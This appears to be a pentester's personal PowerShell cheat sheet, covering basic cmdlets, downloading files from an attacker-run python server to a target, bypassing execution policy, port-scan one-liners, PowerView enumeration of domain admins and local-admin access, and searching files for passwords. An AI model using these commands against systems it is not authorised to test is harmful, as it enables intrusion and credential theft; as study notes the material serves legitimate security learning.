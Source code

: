 Powershell

powershell scripts:
PowerView and Nishang


Start PowerShell on CMD> powershell.exe

# Powershell Commands:
whoami /priv
Get
Start
Stop 
Read
Write
New
Out
Get-Help			- displays info on cmdlet
-exmaples
get-command <verb>-*				- i.e get-command New-* will search for files with new in it
Common verbs to use include:
• Get
• Start
• Stop 
• Read
• Write
• New
• Out
Get-Command *-<noun>
powershell -c "Invoke-WebRequest -Uri 'http://<tun0>:<ipfromserver>/<file>' -OutFile 'C:\Windows\Temp\<file>'"				- recieving a file from linux, host server:  python3 http.server
Get-Help Get-Command -Examples 
Get-Command 			- gets all the cmdlets installed on the current Computer  
Get-Command -CommandType Cmdlet | measure				- lists how many cmdlets
cls
|			- The Pipeline ( | ) is used to pass output from one cmdlet to another  
A major difference compared to other shells is that instead of passing text or string to the command after the pipe, powershell passes an object to the next cmdlet.   
Get-Command | Get-Member -MemberType Method  			- view the members for Get-Command 
Get-Command | Get-Member -MemberType Property			- 
Select-Object  			- used for pulling out the properties from the output of a cmdlet and creating a new object  
Where-Object 				- to filter based on the value of properties.   
Get-Service | Where-Object -Property Status -eq Stopped				- views stopped processes
Get-Service | Where-Object -Property Status -eq Running				- views running processes
Get-ChildItem |Sort-Object				- lists directories
Get-ChildItem | Select-Object -Property Mode, Name			- listing the directories 
Get-ChildItem				- equivalent to ls -l
Get-Location					- list current directory
Invoke-WebRequest			- used to make a request to a web server
Get-ChildItem -Path C: -Include <file>.txt -File -Recurse -ErrorAction SilentlyContinue			- find a file
Get-FileHash -Path "C:\<filepath>" -Algorithm MD5
Get-FileHash -Algorithm SHA256 .\<filename>				- get hash of a file
certutil -decode "C:\<filepath>" file.txt				- decode base64 then cat file.txt
certutil -encode "C:\<filepath>" file.txt				- encode base64 then cat file.txt
Get-LocalUser				- gets users on system
Get-LocalUser | Where-Object -Property PasswordRequired -Match false				- check for users not required passwords
Get-NetIPAddress				- get detailed ip info
Get-ChildItem -Path C: -Include .bak -File -Recurse -ErrorAction SilentlyContinue				- look for backup files
Get-Content "C:\<filepath>"				- cat or read a file
Get-Content .\file.txt		
Get-ChildItem C:* -Recurse | Select-String -pattern <filename>				- search for a file
Get-Process					- lists processes
Get-Process -name notepad   	- specifys name of the process ie notepad
Get-Acl C:\					- check owner of C:\
Start-Process notepad.exe					- start a program/process  ie notepad.exe
Copy-Item .\<filename>					- copy an item
Move-Item <filepath> <filepath>				- move an item
(New-Object System.Net.WebClient).Downloadfile('http://<IPofHost>:<portPY3Server>/<filename>.ps1')			- downloading a file, first setup python3 server, python3 -m http.server 4444
Get-ExecutionPolicy -list				- lists execution policy
Execution policies can have seven different values;
AllSigned: Scripts can run but require all scripts to be signed by a trusted publisher.
Bypass: All scripts can run, and no warnings or prompts will be displayed.
Default: This refers to “restricted” for Windows clients and “RemoteSigned” for Windows servers.
RemoteSigned: Scripts can run, and this does not require local scripts to be digitally signed.
Restricted: The default configuration for Windows clients. Allows individual commands to run, does not allow scripts.
Undefined: This shows that no specific execution policy was set. This means default execution policies will be enforced.
Unrestricted: Most scripts will run.

powershell -ExecutionPolicy Bypass -File .\<filename.ps1>			- bypass policy
Set-ExecutionPolicy Bypass -Scope <ScopeName>				- sets parameter for current powershell session, will revert and session is closed
Invoke-WebRequest "http://<ipofhost>:<port>/<filename>" -OutFile "<newfilename>"				- send a file
Get-Hotfix				- enumerate already installed patches
Get-Hotfix | Format-list | findstr InstalledOn 			- Get-Hotfix | Format-list | findstr InstalledOn
dir | Format-List *			- More information on directory list
1..1024 | %{echo ((New-Object Net.Sockets.TcpClient).Connect("<ip>|, $_)) "Open port on - $_"} 2>$null				- scans first 1024 ports, change IP
After downloading 	https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1	Send to Windows machine THEN
Import-Module .\powerview.ps1
THEN can use the following commands::
Get-NetDomainController  			- gets information about the domain controller
Get-NetUser  				- list of domain users detailed
(Get-NetUser ).name			- list just domain users
Get-NetUser | select -ExpandProperty lastlogon			- gets last logon date/time by users
Get-NetComputer  -ping				- enumerate systems connected to the domain, sees which are currently online
Get-NetGroup  				- gets users groups, check for users in domain admins /detailed
Get-NetGroupMember  "Domain Admins"  			- search for users in domain admins specific
Get-NetGPO					- gathers information on enforced policies
Get-NetDomainTrust				- lists any domain you can access
Find-LocalAdminAccess				- lists systems in the domain you may access as a local admin
Find-DomainShare -CheckShareAccess 				-Search readable shares  
https://book.hacktricks.xyz/windows/basic-powershell-for-pentesters/powerview





https://learnxinyminutes.com/docs/powershell/
powershell scripts are usually saved as .ps1

open port script:create ports.txt file with common open ports, this will check if they are open

$system_ports = Get-NetTCPConnection -State Listen

$text_port = Get-Content -Path C:\Users\Administrator\Desktop\ports.txt

foreach($port in $text_port){

    if($port -in $system_ports.LocalPort){
        echo $port
     }

}




Find text within a file, make a powershell file findtext.ps1 then run .\findtext.ps1
$path = "C:<filepath>*"

$string_pattern = "<passwordORanyText"

$command = Get-ChildItem -Path $path -Recurse | Select-String -Pattern $String_patternecho $command


Port scanner:adjust:130 to 1 and 140 to max ports:
for($i=130; $i -le 140; $i++){
    
Test-NetConnection localhost -Port $i

}
